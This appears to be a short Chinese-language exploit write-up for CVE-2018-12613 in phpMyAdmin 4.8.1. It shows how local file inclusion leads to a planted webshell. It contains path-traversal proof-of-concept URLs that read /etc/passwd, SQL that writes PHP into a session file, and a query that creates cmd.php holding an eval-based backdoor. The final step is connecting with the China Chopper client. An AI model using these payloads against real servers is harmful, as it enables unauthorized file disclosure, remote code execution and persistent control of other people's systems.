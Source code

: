 # phpMyAdmin v4.8.1 本地文件包含 到写入webshell

> CVE 编号： CVE-2018-12613

## poc
```shell script
http://xxxx.com/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd
```
## poc2
```shell script
http://xxxx.com/index.php?target=sql.php?/../../../../../../../../../etc/passwd
```

## 写入webshell 利用
1. 执行sql 语句 `SELECT "<?php phpinfo();?>"`  
2. 包含session 文件  
    ![session](images/session.png)
    `/index.php?target=sql.php?/../../../../../../../../../tmp/sess_7600504195960fdd23197b847708a866
`
    包含session 文件，出现phpinfo  
    ![session](images/phpinfo.png)  
    从phpinfo中搜索`CONTEXT_DOCUMENT_ROOT `可查看web路径   
    ![webpaht](images/webpath.png)  
3. 写入webshell   
```sql
select "<?php file_put_contents('/var/www/html/cmd.php','<?php @eval($_POST[pass]);?>')?>"

```
访问 cmd.php 文件已经存在，说明写入成功  
![cmd.php](images/cmd.png)

4. 菜刀添加webshell  
![shell1](images/shell1.png) 
![shell2](images/shell2.png) 

    
